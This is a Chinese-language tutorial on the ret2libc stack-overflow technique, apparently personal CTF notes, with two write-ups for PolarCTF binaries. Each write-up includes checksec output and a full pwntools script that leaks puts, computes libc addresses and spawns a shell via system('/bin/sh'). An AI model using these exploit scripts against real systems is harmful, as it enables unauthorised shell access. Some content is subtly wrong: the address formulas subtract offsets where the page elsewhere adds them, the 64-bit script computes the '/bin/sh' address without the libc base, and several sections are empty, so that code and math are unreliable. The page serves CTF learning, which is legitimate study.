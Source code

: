 ```yaml
---
title: ret2libc
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

## libc 相关知识
### 计算libc基地址
> 基地址：每次运行程序加载函数时，函数的基地址都会发生改变。这是一种地址随机化的保护机制，导致函数的真实地址每次运行都是不一样的。

> 这次运行程序的基地址 = 这次运行得到的某个函数func的真实地址  - 函数func的偏移地址 “这次！！”


libc_offset_puts 可以由pwntools的 libc.symbols['puts'] 获得 

函数的真实地址   =   libc基地址   +   偏移地址 

libc_base   = real_func - libc_offset_func

system_addr = libc_base - libc_offset_system

puts_addr   = libc_base - libc_offset_puts
### 获取plt表或者got表里的 偏移地址
```py
elf = ELF("file")
elf.plt['puts']
elf.got['puts']
```
### 通过puts打印出puts的真实地址
> 像puts(),write()这样的函数可以打印内容，我们可以直接利用这些打印函数，打印出某个函数的真实地址（即got表中存放的地址）
```py
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret_addr = 0xdeadbeef
# payload = b'A' * padding + p32(puts_plt) + p32(ret_addr) + p32(puts_got)
# 调用plt里的puts打印出got里的puts got里面是真实的地址 也就是 real_puts
```
> 64 位

### 通过puts计算出 libc_base
### 32位 传入参数 
填充字符 + 要跳转的函数 + 随便的函数地址 + 要跳转函数的参数

### 64位 传入参数


## 例题 32位 PolarCTFD&N Game

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file Game
Game: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=473b0474ed2e85434ce06aa3fbde434bbdd236bf, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=Game
[*] '/home/kali/win/Downloads/Game'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### ida
> main

![alt text](/images/image-13.png)

> function

![alt text](/images/image-15.png)

> star

![alt text](/images/image-16.png)

最终发现是在star函数里出现了溢出
NX开启
没有getshell
没有system
那就是 ret2libc 了

### exp
思路 找到libc 基地址
找到 system和 /bin/sh字符串的地址构造 rop链

```py
from pwn import *
context(arch="i386",os="linux")
file = "./Game"
io = process(file)
elf = ELF(file)

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

# libc_offset_puts = elf.libc.

star_addr = 0x080485F4

padding = 0x6C + 4

payload = b'a' * padding + p32(puts_plt) + p32(star_addr) + p32(puts_got) 

print(io.recvline())
io.sendline("yes")
print(io.recvline())
io.sendline("yes")
print(io.recvline())
io.sendline(payload)
io.recvline() # the print
puts_real = u32(io.recvline().strip())


libc = ELF('/lib/i386-linux-gnu/libc.so.6')
# libc 版本很重要 libcsearch 根据获得的puts_real的后三位寻找
# libc database search：https://libc.blukat.me
libc_base = puts_real - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = libc_base + next(libc.search(b'/bin/sh'))

print(io.recvline()) # star

payload = b'a'*padding + p32(system_addr) +p32(0xdeadbeef) +p32(sh_addr)

io.sendline(payload)
io.interactive()
```


## 例题 64位 PloarCTFD&N sleep

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file sleep
sleep: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b42baed839564bd0484ceecd264384595f89afb5, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=sleep
[*] '/home/kali/win/Downloads/sleep'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### ida
![alt text](/images/image-17.png)

### exp
> pop rdi; ret
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary sleep --only "pop|ret" | grep rdi
0x0000000000400783 : pop rdi ; ret
```
```py
from pwn import *
context(arch="amd64",os="linux")
file = "./sleep"
io = process(file)
elf = ELF(file)

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
fun_addr = 0x00000000004006BD
rdi_ret = 0x0000000000400783
padding = 0x70 + 8

print(io.recvline())
payload = b'a'*padding + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(fun_addr)
io.sendline(payload)

puts_real = u64(io.recvline().strip().ljust(8,b"\x00"))
# 64 位 u64 8个字节， 

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_real - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
sh_addr = next(libc.search(b"/bin/sh"))

print(io.recvline())

payload = b'a'*padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr) + p64(0xdeadbeef)


io.sendline(payload)
io.interactive()



```